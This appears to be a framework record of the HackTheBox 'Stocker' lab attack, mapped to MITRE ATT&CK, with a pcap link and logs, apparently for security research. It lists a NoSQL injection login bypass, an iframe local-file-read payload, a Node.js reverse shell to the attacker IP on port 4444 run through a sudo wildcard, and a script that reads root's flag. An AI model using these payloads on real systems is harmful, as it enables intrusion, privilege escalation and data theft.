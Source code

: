 # Cyber4ML_Framework application in "Stocker" HTB machine

## Framework application details

|Documentation|MITRE ATT&CK|Network Analysis|Log Analysis|
|-|-|-|-|
|Yes|Yes|Yes|Yes|

|Attacker Level|Environment|VPN|Attacker IP|Victim IP|
|-|-|-|-|-|
|Average|Linux|Yes|10.10.16.31|10.10.11.196|

**Average:** The knowledge, behavior and attack-timing of the attacker is average.

## Documentation

Documentation of the attack: [Stocker Documentation](https://github.com/stevendamianakis/HackTheBox_Writeups/blob/main/Machines/Stocker/README.MD)

## MITRE ATT&CK mapping

Below, we map the attack to the MITRE ATT&CK Enterprise framework.

| Tactic | Technique | Subtechnique | Command/Script | CVE/CWE |
| - | - | - | - | - |
| Reconnaissance | Active Scanning | Wordlist Scanning | (1) | - |
| Initial Access | Exploit Public-Facing Application | - | (2) | - |
| Execution | Exploitation for Client Execution | - | (2) | - |
| Initial Access | Exploit Public-Facing Application | - | (3) | CVE-2020-24815 |
| Execution | Exploitation for Client Execution | - | (3) | CWE-918 |
| Initial Access | Valid Accounts | Local Accounts | - | - |
| Persistence | Valid Accounts | Local Accounts | (4) | - |
| Privilege Escalation | Exploitation for Privilege Escalation | - | (5) | - |
| Credential Access | Exploitation for Credential Access | - | - | - |


#### Commands/Scripts
- (1)
```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u stocker.htb -t 50 --append-domain
```
- (2)
```
{"username":{"$ne":null}, "password":{"$ne":null}}
```

- (3)
```
<iframe src=file:///var/www/dev/index.js height=1000 width=1000></iframe>
```

- (4)
```
ssh angoose@stocker.htb
```

- (5)
```
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(4444, "10.10.16.31", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;})();
```

#### Alternative Commands/Scripts
- (5)
```
const fs = require(‘fs’);
fs.readFile(‘/root/root.txt’, ‘utf8’, (err, data) => {
 if (err) throw err;
 console.log(data);
});
```


## Network Analysis

Pcap file of the attack: [Capture File](https://github.com/stevendamianakis/Cyber4ML_Framework/blob/main/HackTheBox/Stocker/attack_capture.pcapng)

## Log Analysis

```
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```


```
HTTP/1.1 302 Found
Server: nginx/1.18.0 (Ubuntu)
Date: Thu, 30 Mar 2023 12:54:06 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 56
Connection: close
X-Powered-By: Express
Location: /stock
Vary: Accept

<p>Found. Redirecting to <a href="/stock">/stock</a></p>
```
